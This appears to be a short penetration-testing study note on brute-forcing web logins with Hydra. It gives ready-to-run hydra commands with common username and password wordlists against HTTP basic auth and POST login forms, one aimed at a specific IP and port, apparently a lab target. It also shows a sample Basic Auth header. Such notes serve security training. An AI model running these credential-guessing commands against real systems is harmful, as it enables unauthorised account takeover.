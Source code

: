 ```
hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

```
hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

## HTTP Authentication
headers for Basic Auth in a HTTP GET request would look like:
Code: http

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```
graphically it looks like this
![](Assets/Screenshot%202025-06-25%20at%202.46.23%20PM.png)
command 
```
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt IP_ADDRESS http-get / -s PORT
```

## Login Forms
most likely post method
```shell-session
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/2023-200_most_used_passwords.txt -f 94.237.51.163 -s 57749 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
